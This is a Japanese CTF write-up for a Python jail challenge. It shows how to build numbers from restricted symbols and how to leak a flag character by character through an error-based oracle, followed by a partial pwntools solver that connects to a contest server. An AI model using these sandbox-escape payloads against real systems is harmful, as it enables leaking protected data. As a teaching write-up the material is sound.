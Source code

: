 カッコとかが使えなくなっているのが厄介でした。  
ただし、`>'+;!~][}{`の記号は使える状態なので、以下のようにすることで数値を表現できました。

```py
>>> _a='a'>'b'
>>> a='b'>'a'
>>> _a
False
>>> _a+a
1
>>> a+a
2
>>> b'a'[_a]
97
>>> b'a'[_a]+a+a+a
100
```

問題は、`l`,`i`,`t`,`e`ですが、以下のように文字比較を使うことで対応。  
`chr('a')`の代わりに`~zz`を使ってExceptionを発生させてます。

- d < e < f
- h < i < j
- k < l < m
- s < t < u

```py
>>> z='a';z>'d'and'f'>z[0]and~zz
False
>>> 
>>> z='e';z>'d'and'f'>z[0]and~zz
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'zz' is not defined
```

以下コード。

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# "lite以外"
KEYS = list("_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ")
BASE = "_a='a'>'b';a='b'>'a';b=a+a;c=b+b;d=c+c;x=d+b;y=b'a'[_a]+a+a+a;"

io = remote('amt.rs', 31672)
msg = io.recvuntil(b'Give code: ')

def calc(n: int) -> str:
  x100 = int(n / 100)
  x10 = int(n % 100 / 10)
  x = int(n % 100 % 10)
  return "+".join(["y"] * x100 + ["x"] * x10 + ["a"] * x)

def check(calced_i: str, l: str, r: str) -> bool:
  payload = f"{BASE}z=_[{calced_i}];z>'{l}'and'{r}'>z[_a]and~zz".encode()
  io.sendline(payload)
  message = io.recvuntil(b'Give code: ').decode()
  return "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message

flag = ""
# amateurCTF{は分かっているので13文字目から探索を開始する。
for i in range(12, 100):
  print(f'i={i}, flag={flag}')
  calced_i = calc(i)

```